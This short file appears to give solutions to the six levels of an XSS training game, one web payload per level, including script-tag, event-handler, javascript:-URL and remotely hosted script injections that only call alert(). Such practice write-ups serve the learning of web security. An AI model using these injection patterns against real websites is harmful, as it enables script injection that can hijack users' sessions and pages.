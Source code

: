 # Solutions to the xxs game

* level 1: https://xss-game.appspot.com/level1/frame?query=<script>alert()</script>
* level 2: insert into chat <p onclick='alert()'> click me </p>
* level 3: https://xss-game.appspot.com/level3/frame#3' onerror='alert()';
* level 4: https://xss-game.appspot.com/level4/frame?timer=')%3Balert()%3Bvar b=('
* level 5: https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
* level 6: https://xss-game.appspot.com/level6/frame#HTTPS://pastebin.com/raw/rTRPYeNk
